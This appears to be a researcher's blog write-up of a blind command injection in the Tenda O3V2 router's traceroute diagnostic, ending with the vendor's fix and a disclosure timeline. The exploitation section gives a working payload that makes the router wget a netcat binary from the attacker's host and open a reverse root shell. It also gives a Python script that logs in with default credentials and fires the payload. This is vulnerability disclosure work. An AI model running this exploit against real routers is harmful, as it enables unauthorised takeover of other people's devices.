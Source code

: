 ```yaml
---
title: Blind Command Injection in Tenda O3V2
date: 2024-05-01 13:00:00 +07:00
tags: [research, hardware]
---
```


Some time ago I had time to research router, the router I used for this research was a router that I hadn't used for a long time, namely Tenda O3V2. I used to use this router to connect to wifi over long distances (we call it "nembak wifi"). This Tenda O3 router actually has several versions, there are first version, second version, and third version, in this research I use the second version. The appearance of the Tenda O3V2 as shown below

![O3V2](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/O3.png)

In this research I found a blind command injection vulnerability in the traceroute feature. Blind command injection is a vulnerability that allows an attacker to execute operating system commands on the server that is running an application and application does not return the output from the command. So, Tenda O3V2 have diagnostic tool which includes traceroute but the ip address or domain input is not validated properly and allows the user to perform blind command injection. To perform blind command injection, the attacker needs admin access on the dashboard, but TendaO3V2 have default credential which is admin:admin, so if the user does not change the password then we can perform out blind command injection, and if the user has change password we still can bruteforce it until we got access in dashboard.

We need to retrieve the httpd binary from the router for disassembly and decompilation. There are two methods that can be used: first, by extracting the firmware (download from the official website, the vulnerable firmware version is v1.0.0.12), and second, by directly accessing it from the live or active router. When using the first method to extract the firmware, no filesystem is found in the firmware, i dont know why, possibly due to encryption, obfuscation, or packing in the firmware (my skill issue :( ). Then, when attempting the second method via UART, I failed to solder onto its three pins (RX, TX, and GND) resulting in burnt pin and the pin slightly peeled off (once again, my skill issue). Therefore, I enabled telnet through the dashboard (by default, telnet is disabled, and telnet credentials can be found on the internet) to gain shell access with root privileges. After obtaining shell access with root privileges, we can retrieve the httpd binary for analysis to identify vulnerabilities within it.

### Exploitation

Open router’s httpd binary with Ghidra. In the fromTraceroutGet function, there is a call to the FUN_004758f4 function, which contains a function for executing the traceroute command. Within the FUN_004758f4 function, there is the doSystemCmd function (used to perform traceroute), and this function requires user input. It is evident in the uVar5 variable in the fromTraceroutGet function that there is no sanitization; this variable will later be passed to the doSystemCmd function, potentially leading to command injection.

![fromtraceroutget Function](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/fromtraceroutget.png)

![fun_004758f4 Function](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/fun_004758f4.png)

Listen on port 1337 with nc (netcat), then activate the web server to make the router download the netcat binary (mips). Netcat is used for reverse shell.

![Python HTTP Server](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/pythonhttpserver.png)

Visit 192.168.2.1 then go to diagnose, select traceroute, and enter the IP.

![Diagnose](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/diagnose.png)

Intercept request when submit using burpsuite. In the getTraceroute endpoint, our IP is included in the destination parameter.

![Intercept Request](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/interceptrequest.png)

Change the value of the dest parameter to the command we want, for example performing a reverse shell<br>
```bash
;wget 192.168.2.158:8000/netcat -O /tmp/netcat&&chmod +x /tmp/netcat&&./tmp/netcat 192.168.2.158 1337 -e /bin/sh
```
Explanation of this command, the router will download the netcat binary stored in the tmp directory, then the binary will be given execute access and then execute the binary to reverse shell to port 1337. Then forward the request.

![Reverse Shell](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/revshell.png)

Check the web server, and it's visible that the router is downloading the netcat file.

![Download nc MIPS](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/downloadncmips.png)

Check on the listener, the reverse shell is successful. Now, we got full access to the router with root privilege.

![Got Root Shell](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/gotrootshell.png)

We can create a script to automate the process.


```python
import requests

username = "admin"
password = "YWRtaW4="
urllogin = "http://192.168.2.1/login/Auth"
logindata = {
    'username': username,
    'password': password,
    'timeZone': '12',
    'time': '2024;3;29;12;35;22'
}
command = "%3bwget+192.168.2.158:8000/netcat+-O+/tmp/netcat%26%26chmod+%2bx+/tmp/netcat%26%26./tmp/netcat+192.168.2.158+1337+-e+/bin/sh"

with requests.Session() as session:
        print("[Attempt Login]")
        session.post(urllogin, data=logindata)
        req = session.get(f"http://192.168.2.1/goform/getTraceroute?dest=1.1.1.1{command}&hop=1&_=1713166068405")
        print("[Got shell, Check your listener]")
```

### Mitigation

When this article was published, Tenda had already released new firmware for this device with firmware version 1.0.0.13(10751_5755). In this firmware version, the vulnerability has been fixed by implementing sanitization. Before entering the doSystemCmd function, user input will go through the is_valid_ip_or_domain function. If the input consists of numbers, it will return 1, then proceed to the doSystemCmd function, and the traceroute command will be executed.

![Sanitization](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/sanitization.png)

![is_valid_ip_or_domain Function](/assets/img/Blind-Command-Injection-in-Tenda-O3V2/is_valid_ip_or_domain.png)


They still haven't released the new firmware to the public but you can download the latest firmware [here](https://drive.google.com/file/d/1687UGmpNgmPnvOeJtIuDvoEUrDh7VSKZ/view?usp=sharing){:target="_blank"}{:rel="noopener noreferrer"}


### Timeline
25 March 2024: Vulnerability discovered and the initial contact inquired about Security Vulnerability Reporting to the vendor via email.<br>
28 March 2024: Vendor replied to directly contact to their email.<br>
29 March 2024: Sent them the details of the vulnerability discovered.<br>
30 March 2024: Vendor triage the vulnerability.<br>
7 April 2024: Vendor release new firmware version 1.0.0.13(10751_5755).<br>
8 April 2024: Retesting on the new firmware version and confirming the vulnerability has been fixed.